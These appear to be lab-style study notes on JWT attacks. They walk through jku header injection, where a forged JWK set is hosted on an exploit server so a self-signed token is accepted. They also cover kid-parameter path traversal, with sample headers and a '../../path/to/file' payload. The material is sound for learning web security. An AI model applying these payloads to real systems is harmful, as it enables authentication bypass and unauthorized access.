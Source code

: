 JWK Sets are sometimes exposed publicly via a standard endpoint, such as `/.well-known/jwk.json`. More secure sites only fetch keys from trusted domains, but some can be used with URL parsing discrepancies to bypass the filtering.

As an example, try creating a new RSA key in JWT Editor and copying it. Then, replace the contents of the body in the exploit server to contain the keys:

```json
{
    "keys": [
        {
            "kty": "RSA",
            "e": "AQAB",
            "kid": "893d8f0b-061f-42c2-a4aa-5056e12b8ae7",
            "n": "yy1wpYmffgXBxhAUJzHHocCuJolwDqql75ZWuCQ_cb33K2vh9mk6GPM9gNN4Y_qTVX67WhsN3JvaFYw"
        }
    ]
}
```

For it to work, replace the value of the `kid` parameter in the request to the one in the exploit server and add a new `jku` parameter to the header and set its value to the exploit server. 

```json
{
    "kid": "42971290-a070-4fe0-924a-af4e513b379d",
    "alg": "RS256",
    "jku": "https://exploit-0a2700f504d01bc18082d429016f00f8.exploit-server.net/exploit"
}
```

Finally, modify the payload, sign it with the RSA key without modifying headers and send the request.

>[!info]
>For the lab, this exploit works when the algorithm the application is using to sign the JWT token is Asymmetric like - "RS256"
# Kid Header Path Traversal

Severs can use cryptographic keys for signing different kinds of data. The header may contain a `kid` parameter to help identify which key to use. Verification keys are often stored as a JWK set where the server may simply look for the JWK with the same `kid` as the token.

The ID is just an arbitrary string that the dev chooses. A dev may use the `kid` parameter to point a particular entry in a databases or the name of a file. If the parameter is vulnerable to path traversal, you can force the server to use an arbitrary file from the filesystem as the key:

```json
{
    "kid": "../../path/to/file",
    "typ": "JWT",
    "alg": "HS256",
    "k": "asGsADas3421-dfh9DGN-AFDFDbasfd8-anfjkvc"
}
```
